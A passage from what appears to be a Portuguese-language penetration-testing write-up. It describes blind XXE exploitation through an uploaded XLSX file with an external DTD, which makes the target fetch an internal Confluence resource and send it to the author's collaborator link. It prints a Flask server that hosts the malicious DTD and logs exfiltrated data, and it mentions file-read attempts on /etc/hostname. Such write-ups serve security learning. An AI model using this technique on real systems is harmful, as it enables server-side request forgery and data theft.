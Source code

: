 Essa payload significa que basicamente a aplicação vai pegar o que o http://documentacao:8090/johnson/static/css/main.css.map e enviar como um argumento para o meu link do burpcolaborator client. ('johnson/static/css/main.css.map' é um arquivo do confluence de uma linha para cerificar se o confluence existe está rodando 🙂).

PS: As tentativas de exploração que envolviam LFI foram usando este mesmo DTD mas trocando a url da entidade data por: "file:///etc/hostname".

Então vamos compilar nosso XLSX, abrir um servidor para hospedar nosso DTD e fazer o upload :D

Para hospedar usei um simples server em flask:

```python
from flask import Flask, request
app = Flask(__name__)

@app.route("/")
def index():
    content = request.args.get('data') #apenqs para eu recer o quefor enviado no xxe
    print(content) ## e printar na tela
    return ':)'

@app.route("/bigous.dtd")
def dtd():
    return open('bigous.dtd').read() #mostrar o dtd malicioso nessa rota
app.run(host='0.0.0.0')
```

Depois de fazer o upload o request é feito com sucesso para nosso dtd, que por sua vez faz a aplicação fazer outro request sucedido e mandar a resposta para nosso servidor novamente.

![Untitled](/assets/planilhasbaby/Untitled%2012.png)

Ok, agora eu tinha certeza que era confluence. Hora de procurar os exploits para testar.

Quando fiz o upload do arquivo interceptei o request com o burp e usei a extensão: Copy As Python-Requests, para copiar a requisição para um script em python (dãr), assim eu consigo automatizar um pouco as coisas, ja que nosso arquivo xlsx vai ser sempre o mesmo.

![Untitled](/assets/planilhasbaby/Untitled%2013.png)

Fazendo uma busca por exploits, não encontrei muitos que fossem bons o suficiente para a minha situação, porém um exploit de um amigo me ajudou:
